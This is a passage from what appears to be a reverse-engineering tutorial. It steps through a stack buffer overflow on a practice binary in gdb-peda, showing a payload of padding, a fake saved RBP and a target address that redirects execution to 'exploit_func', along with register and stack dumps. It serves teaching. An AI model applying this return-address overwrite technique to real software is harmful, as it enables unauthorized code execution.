         Legend: code, data, rodata, value
        0x0000000000400590 in vuln_func ()
        gdb-peda$
        

*   Look at the stack. It is so beautiful with our exploit payload! Now, the stack is like this: (Make at note of this!)
    
        <buffer: 'a' * 16><Old Rbp: 'b' * 8><Target Address><Some number: 0x400500>
        

*   **0x7fffffffd8c8** has the address of **exploit_func** which is exactly what we wanted and expected.

*   Let us continue.
    
        gdb-peda$ continue
        

*   This is the state of the program:
    
        [-------------------------------------code-------------------------------------]
        0x400561 <frame_dummy+33>:   jmp    0x4004e0 <register_tm_clones>
        0x400566 <exploit_func>:     push   rbp
        0x400567 <exploit_func+1>:   mov    rbp,rsp
        => 0x40056a <exploit_func+4>:   mov    edi,0x400658
        0x40056f <exploit_func+9>:   call   0x400430 <puts@plt>
        0x400574 <exploit_func+14>:  nop
        0x400575 <exploit_func+15>:  pop    rbp
        0x400576 <exploit_func+16>:  ret
        [------------------------------------stack-------------------------------------]
        0000| 0x7fffffffd8c8 ("bbbbbbbb")
        0008| 0x7fffffffd8d0 --> 0x400500 (<register_tm_clones+32>:     (bad))
        0016| 0x7fffffffd8d8 --> 0x7ffff7a2d830 (<__libc_start_main+240>:       mov    edi,eax)
        0024| 0x7fffffffd8e0 --> 0x0
        0032| 0x7fffffffd8e8 --> 0x7fffffffd9b8 --> 0x7fffffffdde4 ("/home/adwi/rev_eng_series/post_8/code1")
        0040| 0x7fffffffd8f0 --> 0x100000000
        0048| 0x7fffffffd8f8 --> 0x40059f (<main>:      push   rbp)
        0056| 0x7fffffffd900 --> 0x0
        [------------------------------------------------------------------------------]
        Legend: code, data, rodata, value
        
        Breakpoint 2, 0x000000000040056a in exploit_func ()
        gdb-peda$
        

*   This looks like a normal function execution.

*   Let us break at **ret** of **exploit_func**. There is an observation to be made.
    
        gdb-peda$ b *0x400576
        Breakpoint 3 at 0x400576
        gdb-peda$
        

*   Let's continue.

*   This is the state of the program just before **ret** is executed.
    